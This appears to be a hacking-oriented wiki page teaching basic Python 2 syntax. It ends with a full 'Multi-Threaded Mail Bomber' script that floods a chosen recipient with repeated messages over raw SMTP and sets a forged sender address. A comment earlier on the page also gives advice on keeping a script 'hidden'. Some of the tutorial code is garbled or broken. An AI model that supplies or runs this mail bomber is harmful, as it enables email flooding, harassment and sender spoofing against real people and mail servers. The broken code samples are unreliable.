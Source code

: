 Below applies to Python 2.6 or lower, Python 3 is a good bit different.
Python is an object oriented, interpreted language. It is unique in that it requires a user to indent in place of using curly brackets ({..}).
Note: that most *nix distributions come with Python by default.

## Basics ##

_Basic_ python syntax

### Hello World! ###

    >>> print "HELLO WORLD!"
    HELLO WORLD!

### Variables ###

Variable names DO NOT need to begin with a special character, unlike PHP. Variable names CAN, however, be any combination, as long as the word isn't reserved (Ex: and, or, print), of letters and numbers.
    >>> #Numbers
    >>> a = 1 #Declare A as 1
    >>> b = a+5 #b becomes 6, while a remains 1
    >>> a += 5 #a is overwritten, and becomes 6
    >>> c = b = a #c and b are overwritten and become 6
    >>> #Strings
    >>> a = "Hello "
    >>> b = "There"
    >>> c = a+b #JOIN STRINGS
    >>> a = "Blue Yellow Green Red".split(" ") #Split the string at every " "
    >>> a #Output 'a' to the screen, same as print or print()
    ['Blue', 'Yellow', 'Green', 'Red'] #List object, another type of variable
    >>> _.join(a) #Join all the list objects as one_
    'BlueYellowGreenRed'
    >>> a = 'Blue Green Yellow Red'[0:4] #This returns the sub-string 'Blue'
    >>> a = 'Blue Green Yellow Red'[5:] #This returns the sub-string 'Green Yellow Red'
    >>> a = 'a = 'Blue Green Yellow Red'[::2] #This returns the sub-string _Bu re elwRd'_
    >>> #Float 
    >>> a = 88.2
    >>> b = 88
    >>> print a/25
    3.528
    >>> print b/25
    3
    >>> #Other types
    >>> a = (" ", 355, 256.7, ["Hello", "World"])
    >>> type(a)
    <type 'tuple'>
    >>> a = {"Hello":"World", "Key":"Value"}
    >>> type(a)
    <type 'dict'>
    >>> a = "Anhero"
    >>> del a #Its a good idea, if you're making a 'hidden' script, to delete variables after you use them...

## Statements ##


### Comparison ###

<pre>
 <       Less than
 >       Greater than
 ==      Equal to
 !=      Not equal
 is      Identical
 is not  Not identical
 <=      Less than or equal to
 >=      Greater than or equal to
</pre>


#### If ####

    >>> a = 1
    >>> b = 2
    >>> if a != b:
    	print "No!"
     	
    No!
    >>> a = 1
    >>> b = 1
    >>> if a == b:
    	print "Yes!"
    	
    Yes!
    >>> a = 1
    >>> b = 5
    >>> if (a == b-len("....")/1) and "a" == "a" or "b" == "b":
    	print "Yes!"
     	
    Yes!

### Loops ###


#### While ####

    >>> a = 1
    >>> while a < 5: #Note, replacing '<' with '<=' allows it to reach 5, instead of stopping at 4
    	print a
    	a += 1;
	
    1
    2
    3
    4
    >>> a = False;
    >>> while a == False:
    	print "False"
    	a = True;
    	
    False

#### For ####

    >>> for x in range(0, 10):
    	print x
    	
    0
    1
    2
    3
    4
    5
    6
    7
    8
    9
_consider using xrange when dealing with larger lists, as it creates an iterator, rather than constructing the full list in memory_
    >>> for x in ['Hello', 'world', ',this', 'is', 'a', 'list']:
    	print x
    	
    Hello
    world
    ,this
    is
    a
    list

## Examples ##


### Multi-Threaded Mail Bomber ###

    #CREATED BY: DUMP 
    #MULTI THREADING ALLOWS FOR A CLASS TO BE RUN MULTIPLE TIMES AT ONCE.
    #INCLUDES SMTP ENGINE, AND MAIL HEADER GEN. THAT FOLLOWS RFC STARDARDS
    import socket, datetime, time, threading;
    class MailGen():
        def Engine(self, To, From, Subject, Data):
            self.lf = "\r\n";
            return "From: \""+From.split("@")[0]+"\" <"+From+">"+self.lf+"Return-Path: "+From+self.lf+"Sender: "+From+self.lf+"Recieved: "+From.split("@") [1].capitalize()+":25"+self.lf+"To: \""+To.split("@")[0]+"\" <"+To+">"+self.lf+"Subject: "+Subject+self.lf+"Date:  "+datetime.datetime.now().strftime("%a, %d %d %Y %H:%S")+self.lf+self.lf+Data
    class MailBomb(threading.Thread):
        def __init__(self, To, From, Data):
            self.To = To;
            self.From = From;
            self.Data = Data;
            threading.Thread.__init__ ( self )
        def run(self):
            print "THREAD LAUNCHED";
            self.lf = "\r\n";
            self.connection = socket.socket(socket.AF_INET, socket.SOCK_STREAM);
            self.connection.connect((self.To[self.To.index("@")+1:len(self.To)], 25));
            self.connection.send("HELO"+self.lf); self.connection.recv(1024);
            self.connection.send("MAIL FROM: "+self.From+self.lf); self.connection.recv(1024);
            self.connection.send("RCPT TO: "+self.To+self.lf); self.connection.recv(1024);
            self.connection.send("DATA"+self.lf); self.connection.recv(1024);
            for line in self.Data: self.connection.send(line);
            self.connection.send(self.lf+self.lf+"."+self.lf); self.connection.recv(1024);
            self.connection.send("QUIT"+self.lf); self.connection.close();
    address1 = raw_input("To E-mail: ");
    address2 = raw_input("From E-mail: ");
    data1 = raw_input("Subject: ");
    data2 = raw_input("Data: ");
    generator = MailGen();
    message = generator.Engine(address1, address2, data1, data2);
    multiply = int(raw_input("Amount Sent (0, 5, 10...): "));
    lists = [address1]*multiply;
    for a in range(0, multiply, 5):
        for b in range(a, a+5):
            MailBomb(lists[b], address2, message).start();
        time.sleep(.50);

## Modules ##


### Scapy ###

Scapy is a powerful, low-level, networking tool

### DPKT ###

fast, simple packet creation / parsing, with definitions for the basic TCP/IP protocols. 

### Twisted ###

[Twisted](http://twistedmatrix.com/trac/) is an event-driven networking engine written in Python and licensed under the MIT license.

### Tornado Web ###

[Tornado](http://www.tornadoweb.org/) is an open source version of the scalable, non-blocking web server and tools that power FriendFeed. The FriendFeed application is written using a web framework that looks a bit like web.py or Google's webapp, but with additional tools and optimizations to take advantage of the underlying non-blocking infrastructure.

## Links ##

[Python Documentation](http://docs.python.org/)
[Download Python](http://www.python.org/download/)

